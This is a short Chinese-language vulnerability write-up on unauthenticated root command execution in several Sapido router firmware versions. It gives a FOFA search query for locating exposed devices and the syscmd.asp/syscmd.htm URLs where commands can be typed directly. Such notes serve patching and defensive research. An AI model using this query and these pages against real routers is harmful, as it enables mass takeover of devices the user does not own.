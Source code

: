 # Sapido多款路由器命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

> [!NOTE]
>
> BR270n-v2.1.03
>
> BRC76n-v2.1.03
>
> GR297-v2.1.3
>
> RB1732-v2.0.43

## FOFA

> [!NOTE]
>
> app="Sapido-路由器"

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](Sapido多款路由器命令执行漏洞.assets/16273635732186172.jpg)

访问目标:

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](Sapido多款路由器命令执行漏洞.assets/16273635734912682.jpg)

直接输入就可以命令执行了

